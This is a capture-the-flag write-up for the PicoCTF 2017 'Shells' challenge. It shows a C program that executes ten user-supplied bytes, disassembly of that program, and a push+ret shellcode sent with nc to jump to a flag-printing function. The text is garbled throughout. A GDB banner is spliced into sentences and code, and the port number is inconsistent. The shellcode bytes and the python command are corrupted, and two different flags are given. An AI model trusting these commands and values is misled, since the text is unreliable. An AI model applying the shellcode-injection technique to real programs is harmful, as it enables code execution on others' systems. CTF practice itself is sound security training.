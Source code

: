 # PicoCTF_2017: Shells

**Category:** Binary
**Points:** 70
**Description:**

>How much can a couple bytes do? Use [shells](shells) [Source](shells.c). Connect on shell2017.picoctf.com:6354540976.

**Hint:**

>Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag

## Write-up

1.  It's just little tricky one. But if you know basic of shellcode's then it might be easy for you. This time again we got two files
	```
	$ls
	shells shells.c
	```   
	So now lets try to HexDump the  `shells`  binary.
    
      ```
   Before we can craft a shellcode, we need to know the address of our `win()` function and loading up GDB is our best shot at it.

    $ gdb shells:
     file format elf32-i386
     Disassembly of section .init:
     08048378 <_init>:
      8048378:	53                   	push   %ebx
      8048379:	83 ec 08             	sub    $0x8,%esp
      804837c:	e8 ef 00 00 00       	call   8048470 <__x86.get_pc_thunk.bx>
      8048381:	81 c3 8b 16 00 00    	add    $0x168b,%ebx
      8048387:	8b 83 fc ff ff ff    	mov    -0x4(%ebx),%eax
      804838d:	85 c0                	test   %eax,%eax
      804838f:	74 05                	je     8048396 <_init+0x1e>
      8048391:	e8 6a 00 00 00       	call   8048400 <__gmon_start__@plt>
      8048396:	83 c4 08             	add    $0x8,%esp
      8048399:	5b                   	pop    %ebx
      804839a:	c3                   	ret    
     
     Disassembly of section .plt:
     
     080483a0 <read@plt-0x10>:
      80483a0:	ff 35 10 9a 04 08    	pushl  0x8049a10
      80483a6:	ff 25 14 9a 04 08    	jmp    *0x8049a14
      80483ac:	00 00                	add    %al,(%eax)
     	...
     
     080483b0 <read@plt>:
      80483b0:	ff 25 18 9a 04 08    	jmp    *0x8049a18
      80483b6:	68 00 00 00 00       	push   $0x0
      80483bb:	e9 e0 ff ff ff       	jmp    80483a0 <_init+0x28>
     
     080483c0 <printf@plt>:
      80483c0:	ff 25 1c 9a 04 08    	jmp    *0x8049a1c
      80483c6:	68 08 00 00 00       	push   $0x8
      80483cb:	e9 d0 ff ff ff       	jmp    80483a0 <_init+0x28>
     --More--
    ```
    
So it'GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
    Copyright (C) 2014 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86 binary.

Now lets take a look on  `shells.c`  file.
    
	```
     #include <stdio.h>
     #include <stdlib.h>
     #include <unistd.h>
     #include <sys/mman.h>
     
     #define AMOUNT_OF_STUFF 10
     
     //TODO: Ask IT why this is here
     void win(){
         system("/bin/cat ./flag.txt");    
     }
     
     
     void vuln(){
         char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
         if(stuff == MAP_FAILED){
             printf("Failed to get space. Please talk to admin\n");
             exit(0);
         }
         printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
         fflush(stdout);
         int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
         if(len == 0){
             printf("You didn't give me anything :(");
             exit(0);
         }
         void (*func)() = (void (*)())stuff;
         func();      
     }
     
     int main(int argc, char*argv[]){
         printf("My mother told me to never accept things from strangers\n");
         printf("How bad could running a couple bytes be though?\n");
         fflush(stdout);
         vuln();
         return 0;
     }
	```
Just see their iss one  `win()`  function. Lets take a look on win() function in our HexDump. We can short out output us_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from shells...(no debugging symbols found)...done.
    (gdb) info address wing
  `grep`  command.
    
    objdump -d shells | grep win
     Symbol "win" is at 0x8048540 <win>:
    
We got the address in Hex we used to write it in this way in a file compiled without debugging.

Simple, now we know `win()` is at `0x08048540`.
    
Now we can use  [radare2](https://github.com/radare/radare2)  to generate our payload. Actually we need  `push+ret`  in order to make our payload.
    
    $rasm2 -C " Let's craft a really simple `push+ret` shellcode.

    0:  68 40 85 04 08          push   0x08048540"
    "\x68\x40\x85\x04\x08"
 5:  c3   
    $rasm2 -C "ret"
    "\xc3"
    

Here  `-C`  will give output in c format.Now combine the output of push+ret:               ret

Put together, this gives us `\x68\x40\x85\x04\x08\xcC3`

Now print this shellcode in one file name:  `spirit_shells`.

. Let's try it.

    $ python -c '"print "('\x68\x40\x85\x04\x08\xc3"' > spirit_shells

now just cat it out with the : shell2017.picoctf.com:63545

$cat spirit_shells - | nc shell2017.picoctf.com 63545
C3')" | nc shell2017.picoctf.com 40976
    My mother told me to never accept things from strangers
    How bad could running a couple bytes be though?
    Give me 10 bytes:
 529efbd9e2dec5400206bedaf6a10e21

So, i think we got the flag  `529efbd9e2dec5400206bedaf6a10e21`.

Hope you liked it

Thanks [Abhisek](https://github.com/vabhishek-me)   cd875b6ffb5cdd3319532d52ceca71aa

Therefore, the flag is `cd875b6ffb5cdd3319532d52ceca71aa`
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQ5OTM4NjMyMSwxMjgwMDUzNTkzLC0xMj
M0NzA0Mjg4XX0=
-->